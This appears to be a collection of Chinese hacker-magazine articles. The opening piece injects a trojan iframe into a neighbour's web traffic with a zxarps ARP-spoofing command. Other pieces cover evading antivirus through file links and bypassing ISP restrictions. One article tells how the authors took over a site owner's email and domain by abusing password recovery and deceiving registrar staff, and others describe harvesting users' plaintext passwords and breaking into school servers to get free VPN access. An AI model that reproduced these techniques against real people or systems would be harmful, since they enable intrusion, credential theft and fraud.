准备好相应的软件开始行动，把zxarps.exe和winpcap从光盘里拷出来，先安装winpcap，再把zxarps.exe放在C盘根目录，然后使用IIS在本地架设一个网站，放入一个带马的文件“test.html”。现在运行网络执法官，查看对方在内网的IP地址，如图1。其中IP地址为192.168.1.2的是我路由器的地址，192.168.1.3则是我自己电脑的地址，那个192.168.1.5就是那个小子的。


```bash
zxarps.exe -idx 0 -ip 192.168.1.5 -port 80 -insert "<iframe src='http://192.168.1.3/test.html' width=0 height=0>"
```

运行CMD命令提示符，输入“CD\”进入C盘根目录，再输入上述命令，就是在对方所有打开的网站中插入 http://192.168.1.3/test.html 这个带马网页。zxarps的具体用法请小菜们翻阅第5期的“局域网大作战”一文，在此不再重复。稍等一小会儿，再看看我的兔子PC，哈哈，已经乖乖地上线了，如图2，正是那小子的IP地址。来看看他正在做什么，如图3。


KAO，居然在找免费QQ号，而且连杀毒软件都不装，唉，这什么世道啊！我给他发了一条警告信息，叫他不要再用我的网络，如图4。

我不想对他的电脑做太多的破坏操作，就把他给放了。最后我用路由器的MAC禁止功能又把他的MAC给屏蔽了，一次小小的报复行动到此结束，希望小菜们能从中学到一些东西。


（文章中涉及到的zxarps.exe、winpcap，已经收录在了光盘中）


### 轻松破解联通宽带业务监察限制

Komy-D


我相信，很多叉子可能都像我一样，家里有多台电脑，使用路由器共享ADSL上网吧！不过联通的路由封锁真是让人不能忍受，今天我就把破解方法介绍给大家，与联通（电信）斗争到底！

我家是使用路由器连接两台电脑上网的，这天上着上着突然网页就无法访问，都转到如图1所示的页面了。花钱安装宽带还不让自己家连接多台电脑？联通也太霸道了吧！好像如果要解除限制的话还要交钱才行，那好，我们就来破解它。


我家路由器是TP-LINK R402。关于路由器型号大家可以看路由器后面的标签，打开路由管理界面 http://192.168.1.1 ，输入帐号和密码进行登录（大多数路由默认帐号和密码都是admin。如果无法登录，可以查看说明书，或者在路由器用回形针顶住reset按钮，重置为出厂设置），登录后的界面如图2所示。


点击左侧的“系统工具”，默认就会打开软件升级窗口，也就是固件升级。我们接下来要做的就是寻找当前型号可用的封锁破解固件，然后刷新。如何寻找呢？我就以TP-LINK R420为例来进行示范，TP-LINK其它型号或者其它品牌的路由器操作都类似。

登录TP-LINK的官方网站 http://www.tp-link.com.cn/ ，我在产品中心的宽带路由器分类中很快就找到了自己所用的型号，如图3。点击进入该型号的介绍页面，点击“相关下载”，如图4、图5。


#### 一、封锁原理

从理论上讲，每个网卡都有全球唯一的地址，称为MAC地址。它是一个48位的二进制数。当我们通过路由器拨号上网后，网通局端路由器将分配给我们的路由器一个IP地址。为了让每个数据包能够迅速找到发起数据请求的计算机，路由器往往会把MAC封装到数据包里面。这时，网通通过“网络尖兵”“信风”之类的软件扫描，监测每个IP地址的数据请求，一旦发现某个IP的数据请求里包含两个以上的MAC地址，它就会封锁该IP地址。

那怎么封锁IP地址呢？首先是不能屏蔽IP地址，因为绝大部分用户的IP地址都是临时分配的；其次是不能屏蔽帐号，因为一旦屏蔽了帐号，一个小时后再解除屏蔽就有技术上的难题，同时网通也会冒着违反协议的法律风险。那网通到底是怎么做的呢？我们发现，即便是封锁了路由器，我们依然可以上QQ，可以用电驴下载。这就说明网通既没有封锁IP，也没有封锁帐号，也没有全部封锁TCP/IP协议的相关端口。他们要么是封锁了浏览器需要的端口，要么是封锁了DNS，这才是问题最关键的地方。

#### 二、破解方法

通过升级路由器固件来躲过封锁，原理就是路由器改变了打包的方式，在数据包里面屏蔽了MAC信息。对于广域网而言，看到的只是路由器的MAC地址，这种方式无疑是最完美的。但是，正如上文所讲，并不是每个路由器都能找到可以躲过封锁的固件。事实上，路由器厂家已经承受了来自于网通、电信的压力。


其中的“**版”就是封锁破解固件了。虽然都是针对某一地区，但经网友测试，有些其他省份用也可以。下载固件压缩包后解压，会得到三个文件：一个固件Bin文件，一个TFTPD搭建程序（用于本机与路由数据连通，升级路由固件时的通信）和一个帮助文档（如图6）。


直接运行tftpd32.exe，就会以程序当前目录为共享文件夹启动FTP服务器，如图7。其中的“Current Directory”就是当前服务器的工作目录，点击“Browse”，可以设置目录为固件所在目录。设置完毕后进入路由器的软件升级界面，文件名就是你下载的固件文件名，TFTP服务器IP就是你电脑的内网IP地址，在图7的“Server Interface”中已经标明，设置完毕后如图8所示。


接下来就是升级固件了。先提醒一下各位叉子，固件升级过程中不要关闭Tftpd服务器和断电。整个升级过程有20秒，如果升级失败，路由就会报废了。风险是有的，我就顶着风险，再升级一次给大家——关闭系统的防火墙后，点击“升级”按钮进行升级，如图9。

在升级过程中，网络会断线几次，升级成功后就会返回路由器的主界面。我们看下升级成功后的路由固件版本号，如图10。


大家与图8对比一下，是不是固件变了？虽然变成了比较老些的固件，可现在我们的路由器具有了捆绑的路由防封锁能力，何乐而不为？文章就写到这儿吧！没有什么技术含量，只是分享给叉子们一个突破宽带封锁、多台电脑上网的方法。最后祝广大叉子朋友们早日成为技术大牛。

### 揭开“svchost—应用程序错误”之谜

一、起因

想必经常玩黑的朋友都经常中招吧？那天我逆向工程分析某一病毒文件时，一不小心就运行了病毒，太……了。没办法，只好重……装系统，平时我都使用深度的 XP SP3 来装机，可是盘借给朋友了，于是就使用以前没用过的另一张“JUJUMAO”XP SP2 来装机，也没什么，因为我有各种软件的安装程序，平时文件都保存在 E 盘，所以半小时便轻松恢复了系统。正当我用 360 打着补丁时，突然“咚”的一声，然后就弹出了如图 1 所示的对话框，按了确定后系统就奇慢无比，且没有声音。

太郁闷了，难道病毒我还没有清除干净吗？郁闷地重启，卡巴大叔扫描了一遍，没有病毒啊！但不到一个小时，“咚”又弹出来了，随后我与电脑一起崩溃了。


#### 二、分析

崩溃是没有用的，还是来分析一下吧。在基于 NT 内核的系统（比如 Windows 2000/XP）中，svchost.exe 是极为重要的一个进程。在 2000 中一般有 2 个，XP 中有 4 个以上，而 2003 则更多。作为一个内核级的进程，它的用户名有两个，一个是 NETWORK SERVICES，一个是 LOCAL SERVICES。以前不看不觉得，现在越看越觉得它与服务有关。

我打开了 360 安全卫士，在里面的进程管理中，我发现了 svchost.exe 原来是可以带参数的，其中有一个是 `svchost.exe -k LocalServices`。看到这儿，我已经明白八分了，我紧盯着屏幕，等着……咚！又弹出框框了，这时我立刻看着一边的 360 安全卫士，啊，那个 `svchost.exe -k LocalServices` 居然消失了，看来出错的就是它。于是我断定，一定跟一个本地的而不是网络的服务有关。

#### 三、修复

既然是服务，我就马上在“运行”栏里输入“services.msc”，打开了服务，然后却犯难了——这么多的服务，怎么办才好呢，如图 2？这时，我想起了 Windows 自带的一个好东西——事件查看器！我发现有一个和当时的时间相对应的错误——3wareSrv，如图 3。

3wareSrv，哈哈，终于找到病因了。为了确认，我打开了服务，里面设置的是自动，我一定是触发了什么才发生了错误的。于是我小心翼翼地改成了“启动”，这时，熟悉的窗口又弹出来了。于是我立即重启，然后立刻禁用了这个服务，接着删除了 system32 文件夹中所有与 3wareSrv 有联系的文件（经核实那些文件的确是无用的）。

#### 四、总结

这一次的问题就这样解决了，我为了方便大众，写了一个小程序，已经收录进光盘了。其实想想，当时有一个更简单的方法：找到错误提示中的内存地址在冰刃中对应的 DLL，然后顺藤摸瓜就好了。希望大家以后遇到问题不要慌，把握细节，解决起来其实很容易！


> （本文所涉及到的清除 3wareSrv 已收录到光盘中）


玩 Linux 的朋友对 ln 命令都比较熟悉，它的作用就是创建链接。在 Linux 中存在软链接和硬链接，同样在 Windows 中也存在这两种链接，只不过不是集成在同一个命令中。因为 Windows 与 Linux 文件系统不同，所以它们之间还是有一点点的差别，相比之下 Windows 下的链接更具“特色”！

#### 一、文件替换有新招

##### 1、实验看效果

首先，我们来做一个简单的实验，将“%systemroot%\system32\cmd.exe”复制到 `f:\cmd.exe`，将“%systemroot%\notepad.exe”复制到 `f:\hacker.exe`，然后使用 `fsutil` 命令创建硬链接，将 `f:\test\hacker.exe` 链接到 `f:\cmd.exe`。这样运行 `f:\cmd.exe` 或者 `f:\test\hacker.exe` 都可以打开 `cmd.exe`。我们再将 `f:\hacker.exe`（记事本程序）复制并替换 `f:\test\hacker.exe`，这时你会发现 `f:\cmd.exe` 和 `f:\test\hacker.exe` 都变成了记事本程序。


##### 2、注意事项

- 必须保证文件在同磁盘分区中，否则不会成功。  
- 对原文件必须有写权限，否则不会成功。  
- 登录权限最好在 administrators 组中，因为执行 `fsutil` 命令需要管理员权限。

##### 3、利用

该方法的关键在于“替换文件”。可用于替换系统文件、杀毒软件关键文件等，从而影响木马/病毒存活机制。文中讨论了权限问题（ACL、服务替换、`mt.exe` 提权到 system 等）以及通过编程调用 `CreateHardLink()`、服务函数实现自动化。并指出在实际环境中，若能替换杀软文件，往往意味着已获得较高权限。

#### 二、让“垃圾”加密软件去死吧

随着文件加密软件增多，市场中存在大量“伪加密”产品。文中指出可通过 Windows 链接机制验证软件是否真正产生“密文”，并以常见压缩/查看工具可直接读出内容为例，说明某些产品仅做表面处理。

在上面的实验中使用了硬链接，这里继续使用软链接，需借助 Sysinternals 工具包中的 `junction.exe`。

##### 1、实验看效果

先建立 `f:\hacker` 文件夹，在其中创建 `test.txt` 并写入 “hacker is hacking”。随后在 cmd 中执行 `junction test hacker`，将 test 文件夹链接到 `f:\hacker`。再运行文件夹加密软件对 `f:\test` 加密，最后查看 `f:\hacker\test.txt` 内容，发现文本未改变，从而说明该“加密”并未真正生效。


##### 2、注意事项及原理

运行 `junction.exe` 需保证文件系统为 NTFS 且有足够权限，否则链接无法成功。实验原理是将 `f:\hacker` 链接到 `f:\test`，若加密真正有效，则对 `f:\test` 的加密应等同于对 `f:\hacker` 的加密；通过检查原文件是否变化即可判断是否真加密。

## 三、Windows 链接搞晕 360

文中进一步讨论云安全思路：客户端收集病毒信息并回传，平台分类分析后再下发结果。作者从链接/替换角度讨论其可能被利用的环节，强调自动分析流程中的关键依赖与潜在绕过风险。

大大地减少了工作量。显然，传统的查杀方式是通过逐个的病毒分析来解决问题，而云安全通过自动分析系统根据病毒木马的特点分类，然后针对每一类病毒或者木马进行分析，这样就大大地提高了分析病毒的效率。

360 的云安全，我个人觉得功能并不强大，它最终是通过一种简单的 MD5 对照来实现的。这就相当于使用 fsum.exe、fciv.exe 等工具对系统关键文件进行 MD5 运算并比较。所以如果你的系统是 Vista，系统自带的 Code Integrity 功能就足以顶替这个功能。因此云查杀只不过是名字新颖，而并不是一个难搞定的问题。一方面来说我们可以写一个程序让其杀掉 360，或者使用映像劫持将其屏蔽掉；另一方面来说，既然是通过 MD5 进行比较来实现病毒查杀，那么肯定需要对系统中的文件进行分析比较，只要保证这样的文件不存在，它就没有办法查杀。这也是网络上出现 junction 过云安全的原理：它通过 junction 链接一个目录，然后删除目录，这样找不到比对对象也就过了 360 的云查杀。明白了原理，不管使用 junction 还是 fsutil 都可以搞定 360 的云查杀，如图 5。


### 社工之人傻的艺术

恨天 & NPC


晚上无意间打开了一个非主流的网站，我对当前的“肥猪流”是没任何好感的。正好现在也没什么事，于是就拿它来练练手吧。在网站上看了半天也没看出个啥结果，来检查一下旁注信息吧。我比较喜欢 www.ip866.com，在这里查出的信息比较全面一些，查询的结果如图 1 所示，发现了其它一些站点，可是都上不去。还有就是它的几个子域名，我看了一下，不是 Discuz 就是 DedeCMS，手头也没有 0day，看样子想下手是很难了。

再来看看对方的域名注册信息吧，说不定可以查到什么，然后就可以尝试进行社工了，查询的结果如图 2 所示。


可以看出对方是使用 ****@163.com 这个邮箱注册的。再来查询一下这个邮箱，发现还有 f****.com，貌似这小子还有两个站点啊。到另一个站点看看，又是一个非主流。唉，最讨厌非主流了，现在不是流行买一赠一吗，那就把它也一起黑了吧。到百度搜索了一下这个邮箱，搜到了很多有用的信息，有一个是对方的个人简历，如图 3。

填得还挺详细的，到网易去看看他的邮箱，试了好几个弱口令都打不开，那就把密码找回来吧。打开忘记密码页面，选择“通过密码提示问题”，提示说需要知道他的生日。这个好办，在他的简历中不是写得很清楚吗，搞定。他的密码提示问题是他的学校，简历中也有，直接填上，就可以把密码给更改了。登录上去看看，有 235 个未读邮件呢，如图 4。


在里面找了一会儿，没有发现购买空间时的注册信息，不然的话就可以直接登录 FTP 搞下网站了。现在我们还可以从域名下手，进行 DNS 劫持，把他的域名转发到我们自己的网站上。刚才查询 WHOIS 的时候看见他的域名是从新网购买的，我们去新网试着登录。可是到了新网，使用域名查询一下新网注册的用户名，提示说这个域名不是在这里买的。大概是通过新网的代理商来购买的吧，没关系，我让恨天继续去社工新网的客服。

收到 NPC 发过来的消息，就开始了我的欺骗之旅。从域名的掌握情况来看，应该是从新网的代理商那儿购买的，但具体却不知道是哪家，那就和客服联系一下吧，看能不能通过客服找到代理商的网站。在新网的网站上转了几圈，联系方式好像只有电话，可怜我的电话费呀，还是长途呢！

要进行社工，做好充分的准备是必需的，万一答不上对方的问题，或者吞吞吐吐的，可能就会露馅。我把那个站长的简历和查询 WHOIS 的页面都打开，掌握站长的姓名、电话和域名的相关信息，比如注册时间、注册邮箱等等。然后拨通了客服的电话，接电话的是一位热情的男士。第一次使用电话社工，难免有些紧张，但是我磁性、浑厚的声音掩盖了我的不安。下面是我跟那位客服的交谈记录：

> 我：你好，我前年购买了一个域名，现在想把它重新转向一下，但是忘了在哪个网站上购买的，查了一下，好像是在你们网站上购买的，能不能帮我把用户名找一下？  
> 新网客服：您的域名是多少？  
> 我：****.com  
> 新网客服：您确定是在我们网站上直接购买的？还是从代理商买的？  
> 我：我也不太确定，毕竟是两年前购买的了，能不能帮我查一下，谢谢。  
> 新网客服：稍等，我帮您查询一下。  
> ……  
> 新网客服：您好，您是从我们的代理商购买的，安徽**网络科技有限公司，电话 0551-******。  
> 我：谢谢！

挂上电话，直接在百度中搜索安徽**网络科技有限公司，找到的第一个就是该公司网站。尝试了几个账号和密码都无法登录，再次联系客服，因为掌握的资料比较齐全，很顺利就得到了用户名为 dkjz***** 和另一个网站 www.1****.com，如图 5、图 6。

尝试了好几个密码都不对，还是来找回密码吧，可是试了两遍都没收到邮件，难道 RP 有问题？我只好再次麻烦客服 MM 了。这位 MM 不知是太敬业还是故意刁难我，问的问题还真多，但有 WHOIS 数据和他的简历还怕不正确吗，终于客服 MM 还是告诉了我密码 123456，如图 7。成功登录进去，得到他的 DNS 了，不容易呀；发现他有 3 个域名，有一个已经到期了，如图 8。看了一下另外一个网站，还是非主流，也一起黑了吧！

如果要进行域名劫持，就必须要有一个支持域名绑定的空间，手头上没有，我就找了一个很烂的免费的，将就着用一下吧。注册以后，会提供给你一个二级域名和 FTP 的地址以及用户名和密码。登录 FTP，把黑页直接拖进去，然后改名为 index.html，这是默认的首页文件名。然后点击域名绑定，输入要绑定的域名，这里输入的和解析过来的域名要一致，不然绑定不了……


打开要劫持的域名的管理选项，选择 My DNS 功能，如图 10，然后把要劫持的域名后面的 IP 地址改成刚才记下的那个地址，点提交，如图 11。过了一会儿，域名生效了，转到了黑页，哈哈，劫持成功了，如图 12。我又在黑页上挂了个 51 统计，一会儿竟然就有一百多个 IP 了，这站点的流量还真大，要是挂马的话，嘿嘿……


下面来扩大成果，我又意外地发现这个网站的站长竟然被搜狐 IT 与 CHINAZ 联合打造的“站长访谈”采访过，这么牛，如图 13。在他的邮箱里翻了翻，看到一个百度联盟的邮件，想登录进去看看，试了几个密码都不对，那就继续找回密码。终于成功登录了进去，结果我发现里面还有好几千的广告费，如图 14。

在邮箱里又找到了另一个域名的注册信息 wzqi***.cn，直接有密码和登录地址，同样可以使用域名劫持，如图 16，不过它只是一个小企业网站，就算了吧。


在邮箱里我发现了好多网站的注册邮件，其中有一些直接给出了密码，而且密码也都使用一样的，如图 17。文章再写下去也没有什么意思了，不外乎无止境的欺骗而已。


就因为一个站长的简历而导致我们得到他的很多东西，在此提醒各位站长同胞，安全不仅仅是你的服务器做得多好，网站多么严密，其实入侵就是这样，只要抓住一条信息，持之以恒，就一定会有结果的。


看了下资料，这应该是最新的吧，和找到的简历有些不同，如图 15。很想把他的银行账号改成我的，但这只是想想而已，后果严重啊！继续在邮箱里找，有一个九九数据的邮件，登录进去后发现是租了一个服务器，明天就要到期了，还没有续费。

### 玩转黑客网页游戏 HackThisSite

CCOz [NetST]


前两天无意间进入了一个叫 hackthissite.org 的外国网站，从字面上来理解，就是“黑了这个站”的意思。奇怪吧，原来 hackthissite.org 是一个专门提供黑客网页游戏的网站。在这里可以锻炼 hacking 技能——包括 Web 入侵、程序破解、加密解密、第三方软件溢出和 JS 脚本的相关内容，都在这个站里面有关卡。更吸引人的是，这个网站经常推陈出新，做出新的关卡来给大家玩。

网站分为 Basic Missions、Realistic Missions、Application Missions、Programming Missions、ExtBasic Missions、JavaScript Missions、Stego Missions、IRC Missions 几项，后几项非常难，所以今天只给大家介绍 Basic Missions，也就是基本关卡。


首先是注册，打开网站 hackthissite.org，找到“Login (or Register):”，点击 Register，来到注册页面（如图 2）。带有绿色箭头的是必填项，包括验证码在内共 9 个必填项，依次填写用户名、密码、重复密码、密保问题、密保答案、邮箱地址、重复邮箱地址和验证码，最后点击 Submit 提交。


在网站左边栏中找到关卡列表，点击“Basic Missions”，进入 Basic 1。进去之后用谷歌翻译可见提示：这是我们所说的“白痴测试”，如果你不能完成它，不要放弃学习，但不要去乞求别人的答案；输入密码即可继续。


提示还说要学习 HTML，我们想到查看源代码，在源文件提示附近我们可以看到：

```
This level is what we call "The Idiot Test", if you can't complete it, don't give up on learning all you can, but, don't go begging to someone else for the answer, thats one way to get you hated/made fun of. Enter the password and you can continue.

<!-- the first few levels are extremely easy: password is 704b1ba8 -->
```

### 傻瓜黑客

看到最后那一句了吗？密码是 **794b1ba8** 哦。输入密码，收到系统祝贺，点击“next challenge”进入下一关——basic 2，如图7。


basic2 的提示如图8所示，翻译就是“网络安全山姆建立了密码保护的脚本……验证密码是否正确的文件不存在，即空口令漏洞，什么都不输入直接点击按钮就进入下一关了。”


basic3，提示如下：“这一次网络安全山姆记得上传密码文件，但也有较深层的问题。”既然上传了密码文件，那一定会验证；我们接着去源码查找，结果在最下面找到了。

```html
This time Network Security Sam remembered to upload the password file...
<form action="/missions/basic/3/index.php" method="post">
  <input type="hidden" name="file" value="password.php" />
  <input type="password" name="password" />
  <input type="submit" value="submit" />
</form>
```

网页有个 file 值为 `password.php`，即密码文件。将地址拼接后可看到密码，图9显示密码为 **0cbd2d91**，复制后进入下一关。basic4 提示大意说 Sam 写了加密脚本，将密码邮件给 Sam。

给 Sam 发邮件就一定有邮箱地址，到源码里查找。下面可见：

```html
<center><b>level4</b></center>
This time Sam hardcoded the password...
<form action="/missions/basic/4/level4.php" method="post">
  <input type="hidden" name="to" value="webmaster@hulla-balloo.com" />
  <input type="submit" value="Send password to Sam" />
</form>
<form action="/missions/basic/4/index.php" method="post">
  <input type="password" name="password" />
  <input type="submit" value="submit" />
</form>
```


看到邮箱是 `webmaster@hulla-balloo.com`。通过修改网页表单把邮箱改成自己的，点击 send password 后显示“password: 19a44527”（图11），输入后进入 basic5。限于篇幅不继续介绍。

### 危险的校内人气之星


作为 SNS 的领头人之一，校内（现已改名人人）曾吸引大量大学生注册。作者因无聊注册并体验了开心农场、荣光医院、开心水族馆等应用，也在互踩中感受到“人气”带来的面子需求。

在网络上搜索提升校内人气工具时，作者发现名为 **CSUBOY** 的“校内人气之星工具”，宣称可快速增加人气，因此下载使用。

为了见证它宣扬的三秒加一个人气的效果，我迫不及待地就点击登录，开始刷人气。软件分为两步：1、先登录服务器；2、开始刷人气。哇，好厉害，没有虚假宣传，当我开始确认刷人气的时候接二连三地有人开始访问我的页面，人气蹭蹭地就上来了，太神奇了，amazing！还可以在后台开着刷呢，可以去做其他的事情了。不经意间，用浏览器打开了校内主页，按理说应该直接跳到我的主页的，但是这次却提示我输入密码，登录邮箱还是一个陌生的邮箱，奇怪呀，难道有人登录过我的校内？我满脸狐疑。


我的天啊，软件要获取注册号，给他们宣传，才可以正常使用，不管了，毕竟都到这一步了，没有啥好的东西，先将就着用吧。折腾了好一会儿，终于打开了软件，匆匆地输入自己的校内登录邮箱、校内ID、密码和注册码，如图1。

电脑一直是自己用的，这个是别人登录之后退出才会出现的啊。我随手刷新了一下，这次邮箱又变了，如图2、图3！刹那间我明白了这个人气之星的工作原理：在我的电脑上登录他人帐号来访问我自己的页面，这样人气自然就上来了！网页登录的时候，cookies 已经改变，而且和软件是独立的，所以不能登录别人的页面。想到这里，邪恶的念头出现了：来我页面访问的帐号都在本机登录过，那我有没有方法来获取他们的帐号和密码呢？立刻拿出工具开始干活：打开 WScockExpert 抓包工具，先登录服务器，然后开始对这个程序进行抓包，如图4。点击开始刷人气，这时候抓包工具也刷刷刷地跳动了起来，我目不转睛地盯着跳动的数据包，发现了，发现了，竟然发现了明文传输的数据包，如图5。就这样，别人的登录邮箱和登录密码轻轻松松地就被我得到了！使用第三方的辅助软件还是谨慎点吧，不安全的（提示：在大家看到本文的时候，校内已经提示不要使用刷人气等软件了，容易造成账号泄露 O(∩_∩)O~）。


（文章中所用到的 WScockExpert 抓包工具已收录到光盘中）

### QQ农场的“黑手”

偶睡着了

最近，“QQ农场”游戏风靡网络，“今天你偷菜了吗？”这句话无论是在虚拟的网络上还是在现实的生活中都成了最热的语言，办公室里的人甚至把它当做了打招呼的替代语，深夜独守着别人的菜地伺机偷菜，凌晨爬起来在自己的菜地摘菜……在虚拟的“QQ农场”里种菜和偷菜间乐此不疲，“QQ农场”像魔法一般牢牢地套住了人们的心，居然连我的家人也未能幸免，一样沉迷于“QQ农场”，想必 XX 的小编们也一定忙得不亦乐乎吧！苦于长时间电脑被霸占，心里很是不爽，面对家人又很无奈。

但转念一想，如今的网络软件相对很“齐全”，便准备搜罗一下网络，看看有没有自动“帮忙”的程序，哪怕是需要注册的，拿来破解掉也好，于是找到了一款 QQ 伴侣的软件，便拿来与大家分享。

#### 一、QQ农场伴侣

打开程序，其界面如图1所示，填入QQ号码和密码以及验证码进行登录。所有的数据都已经被自动写入，很傻瓜化，如果不想做其它设置的话就不需要做任何的改动了，如图2。

如果想对程序进行设置，则可以点击“系统”，可以选择“重新登录”、“代理设置”、“查看日志”等，比如点击“代理设置”，可以勾选上“使用代理”，然后填写上代理服务器即可，如图3。

就可以了，里面的选项可以直接进行切换，如图4。在“商店”里我们可以选择“种植物”，写入购买的数量，然后点击购买即可（这里要注意：程序是不能自动购买种子的，所以平时自己要购买好足够的种子哦），背包和仓库没有什么好介绍的，玩过“开心农场”的都知道。


图4


图1


图2


图5


图3

要想查看“商店”、“仓库”、“背包”也很方便，只需要点击菜单栏中的“商店购物”、“我的背包”、“我的仓库”即可。

在菜单栏中还有个“辅助”选项，我们点击“刷经验工具”，如图5。在工具的功能介绍里已经写得很清楚了，我就不赘述了，如果你的金钱数量足够的话，可以进行刷经验，先写入购买的数量，然后点击“购买”，然后使用鼠标双击锄掉一块空地，点击“开始”即可。

最后来到菜单栏的“设置”选项，里面的各个选项写得很清楚，可以依据个人需要进行选择或者取消。“自动播种”的选项默认是不被选中的，如果需要此功能对其勾选就可以。在“安全设置”中很多单位是毫秒，1000毫秒=1秒，依据个人要求设置即可。“特殊设置”里是验证码相关的设置，当QQ农场有验证码出现的时候会播放提示音，默认的提示音有三种，不过声音比较短，如果觉得可能听不到的话可以点击“目录”放入自己的音乐文件，不过一定要是 wav 格式的文件，然后在“音频文件”的下拉菜单中选择，如图6。


需要注意的一个问题就是 Windows 2003 下无法使用 QQ 伴侣，因为 Windows 2003 默认会对应应用程序和服务启动数据执行保护，所以只要对其设置 QQ 伴侣例外就可以。在“我的电脑”上点右键，选择“属性”→“高级”，在性能里点“设置”，如图7，选择“数据执行保护”，点击“为除下列选定程序之外的所有程序和服务启动DEP”，点击“添加”，把 QQ 伴侣添加进去保存就行了，如图8。


#### 二、QQ农场伴侣助手

有了伴侣自然就不能少了伴侣助手。打开程序，界面如图9所示，QQ伴侣助手是需要QQ伴侣先启动的，这点要注意一下。点击“开始工作”，QQ农场的数据马上会被实时监控写入，设置也一目了然，默认设置就可以，也可以按自己的要求进行设置，也可以勾选“自动关机”进行电脑定时关机操作。

不过这里有几点注意事项：QQ伴侣的安全设置里不能设置“休息”，也就是上文提到的“功能设置”里面的安全设置，默认是没有被选中的；还有就是“QQ助手”工作中时，不要点击“QQ伴侣”的“开始工作”按钮，暂停状态的QQ伴侣最小化会提示是否运行伴侣，请选择否。

QQ伴侣助手的下方还有两个重要的功能，也就是“成熟计算”和“收益分析”。打开“成熟计算”，勾选上“相对指定时间”，最好不要选择“相对系统时间”，不知道什么原因，本地测试选择“相对系统时间”则程序出错，没有做深入的研究，然后点击“种植物”就可以推算出该种植物的成熟时间了，如图10。

再来进入“收益分析”功能，点击“确定”则日志数据被写入，选择“开始分析”则在“偷取总价值”中显示偷取的总价值为多少钱，选择“详细显示”则显示出具体偷取的物品日志，如图11。


最后祝大家在QQ农场里多多偷菜，偷不完兜着走，不过还有一个很关键的问题，就是解决每天电脑因为玩QQ农场而被霸占的问题。

（文章中所用到的QQ农场伴侣、QQ农场伴侣助手已收录到光盘中）

### 变态验证码之Z-Blog

smartwsw


自己建了个 Z-Blog 的站点，感觉安全性挺不错，而且也发现了这个可以算作 Bug 的变态验证码。在 Z-Blog 的“后台管理”——“网站设置管理”——“页面设置”中可以自定义验证码图片中允许出现的字符，如图1。我就加了字母进去，结果重新登录时却发现了一个很严重的问题，如图2。应该有5位的，却一位也没有显示。


我仔细研究了下，发现只要出现字母，就算你自己添加了，也只会显示为空白。然后我就想，如果加入一个自定义字符，别人看到时就不知道，我们却可以心知肚明，够变态吧？经过测试，特殊字符的数量最好是5个，如字符为 @，则“自定义验证码图片中允许出现的字符”后面就接“0123456789@@@@@”这样的。这样，除非 hacker 们知道你的 ftp 帐号和密码，否则谁也不会进入你的后台了。


### 校园“免费”来上网

夜虫儿

对于目前大多数的学生，上网已经成了自己生活中不可或缺的一部分，上网在给我们带来满足的同时，网费却成了困扰心头的一道难题，尤其是像我所在的这类学校，上网是按小时收费的，又不提供包月业务，光每月的网费也要近200元。所以我一直在寻找免费上网的方法，最近炒得很火的“卡皇”我也买过，可是在我们这个校园里还是不尽如人意。经过这么长时间的琢磨，也总算是有点收获，现在就拿出来和叉子们分享一下。

- 使用拨号软件上网（如联创宽带助手）
- 无线网络（学校提供的无线网络，多数仅允许教育网）
- 插网线直接连通校园网

在这里就以我们学校（中国矿业大学）的网络为例，其他学校的对比一下就可以了。在矿大，学校只提供了两种上网方式，即使用联创宽带助手上网和无线网络，前者有时间限制，从8:00—23:30这个时间段允许上网，而无线网络就没有时间限制了，但是在学生宿舍根本就搜索不到信号。针对这一点，大家可以去买一个无线信号接收器之类的装置，这种装置的市场价在100—250元之间。还有一点就是无线网只提供连通校园网，并不能访问外面的因特网，只要你浏览因特网的网站，它就会自动跳转到一个登录界面，提示让你输入用户名和密码（此类密码只提供给学校的一些部门和领导，关于这套系统的破解将在以后的文章中介绍，不属于本文的讲解范围）。

#### 一、准备

首先，我们的前提是能够连接上校园网（如果是连接的无线，那就是免费，如果用联创，就是花2毛钱享受8毛钱的待遇）。其次，我们手里必须要有一台学校的服务器，相信这一点难不倒 x 的叉子们。这里我提供给大家一种“快速”拿服务器的方法，因为学校很少有一个部门独占一台服务器的，一台服务器往往都会放了好几个站点。这里还是以我们学校的一台服务器为例，学校的宣传部、统战部、纪检监察处、机关党委和妇委会这几个部门是共用一台服务器，针对这样的服务器，我们可以直接使用挖掘工具，针对目标网址挖掘常见压缩包和备份文件名进行尝试。

#### 二、利用VPN实现“免费”上网

目前的服务器大部分使用的都是 Win2003 系统，所以这里我主要针对 2003 服务器进行设置。在 2003 系统中 VPN 服务叫做“路由和远程访问”，系统默认就安装了这个服务，但是没有启用。我们在管理工具中打开“路由和远程访问”，在列出的本地服务器上点击右键，选择“配置并启用路由和远程访问”，然后点下一步，如图2。


在此，由于服务器是公网上的一台一般的服务器，不是具有路由功能的服务器，是单网卡的，所以这里选择“自定义配置”，来到下一步，选择“VPN访问”，如图3。我们只需要 VPN 的功能。再点击下一步，配置向导就完成了，如图4。


点击“是”，开始服务。下面开始配置 VPN 服务器：在服务器上点击右键，选择“属性”，在弹出的窗口中选择“IP”选项，在“IP地址指派”中选择“静态地址池”，如图6。然后点击“添加”按钮来设置 IP 地址范围，这个 IP 范围就是 VPN 局域网内部的虚拟 IP 地址范围。

这里我设置为了 10.240.60.1—10.240.60.10，一共 10 个 IP，默认的 VPN 服务器占用第一个 IP，所以 10.240.60.1 实际上就是这个 VPN 服务器在虚拟局域网的 IP，至此，VPN 服务器部分就配置完毕了。


然后我们再来为 VPN 添加用户，每个客户端接入 VPN 服务器都需要有一个帐号。默认是 Windows 身份验证，所以要给每个需要接入到 VPN 的客户端设置一个用户，并为这个用户指定一个固定的内部虚拟 IP 以便客户端之间相互访问。

在管理工具中的计算机管理里添加用户，这里以添加一个 chnking 用户为例，先新建一个叫“chnking”的用户，创建好后查看这个用户的属性，在“拨入”标签中做相应设置，如图7。远程访问权限设置为“允许访问”，并勾选“分配静态IP地址”，设置为 10.240.60.2。


如果有多个客户端电脑要接入 VPN，请给每个客户端都新建一个用户，并设定一个虚拟 IP 地址。各个客户端都使用分配给自己的用户接入 VPN，这样每次接入后都会得到相同的 IP。如果用户没有设置为“分配静态IP地址”，客户端每次接入到 VPN，VPN 服务器会随机给这个客户端分配一个范围内的 IP。

我们在服务器上设置好后，还需要在本机设置一个客户端。以 XP 系统为例：右键“网上邻居”选择“属性”→“创建一个新的连接”→“新建连接向导”，选择“连接到我的工作场所的网络”，然后选择“虚拟专用网络连接”。继续下一步，在“连接名”窗口中填入连接名称，再下一步填写 VPN 服务器公网 IP 地址，完成新建连接。

完成后，在控制面板的网络连接中可以看到刚才新建的连接。至此 VPN 设置完成，填上帐号即可享受免费上网的乐趣。

#### 三、使用代理

